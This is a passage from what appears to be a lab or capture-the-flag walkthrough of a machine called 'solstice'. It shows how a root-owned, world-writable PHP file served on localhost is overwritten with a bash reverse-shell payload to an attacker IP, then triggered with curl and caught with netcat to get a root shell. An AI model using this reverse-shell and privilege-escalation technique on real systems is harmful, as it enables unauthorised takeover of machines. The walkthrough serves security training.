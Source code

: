 ```bash
www-data   486  0.0  0.0   2388   696 ?        Ss   14:22   0:00 /bin/sh -c /usr/bin/python /var/tmp/fake_ftp/script.py
www-data   487  0.0  0.0   2388   696 ?        Ss   14:22   0:00 /bin/sh -c /usr/bin/python -m pyftpdlib -p 2121 -d /var/tmp/ftp/
www-data   488  0.0  0.0   2388   756 ?        Ss   14:22   0:00 /bin/sh -c /usr/bin/php -S 0.0.0.0:8593 -t /var/tmp/webserver/
www-data   489  0.0  0.0   2388   692 ?        Ss   14:22   0:00 /bin/sh -c /usr/bin/php -S 0.0.0.0:54787 -t /var/tmp/webserver_2/
avahi      491  0.0  0.0   8156   324 ?        S    14:22   0:00 avahi-daemon: chroot helper
root       495  0.0  2.0 196744 21172 ?        S    14:22   0:00 /usr/bin/php -S 127.0.0.1:57 -t /var/tmp/sv/
...
```

Stepping through these processes reveals that in the folder `/var/tmp/sv/` is a file named `index.php` whis is owned and executed by `root` and is world writeble.  
The corresponding web server listens on localhost on port 57.  

> So, the idea is to overwrite the file with own `PHP` code and access the resource on the web server to get `root` access.
> We recycle the reverse shell code we already used.  
{: .prompt-info }

Overwrite the file with our payload.  
payload: `bash -c 'bash -i >& /dev/tcp/192.168.49.250/81 0>&1'`  
```bash
www-data@solstice:/var/tmp/sv$ echo "<?php system(\"bash -c 'bash -i >& /dev/tcp/192.168.49.250/81 0>&1'\"); ?>" > index.php
<dev/tcp/192.168.49.250/81 0>&1'\"); ?>" > index.php
www-data@solstice:/var/tmp/sv$ cat index.php
cat index.php
<?php system("bash -c 'bash -i >& /dev/tcp/192.168.49.250/81 0>&1'"); ?>
```

Start a new listener on the attackers machine
```bash
$ nc -lvp 81
listening on [any] 81 ...
```

Trigger reverse shell
```bash
www-data@solstice:/var/tmp/sv$ curl 127.0.0.1:57
curl 127.0.0.1:57
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:--  0:02:41 --:--:--     0
```

Catch connection from server.
```bash
$ nc -lvp 81
listening on [any] 81 ...
192.168.250.72: inverse host lookup failed: Unknown host
connect to [192.168.49.250] from (UNKNOWN) [192.168.250.72] 46914
bash: cannot set terminal process group (484): Inappropriate ioctl for device
bash: no job control in this shell
root@solstice:/var/tmp/sv# id
id
uid=0(root) gid=0(root) groups=0(root)
```
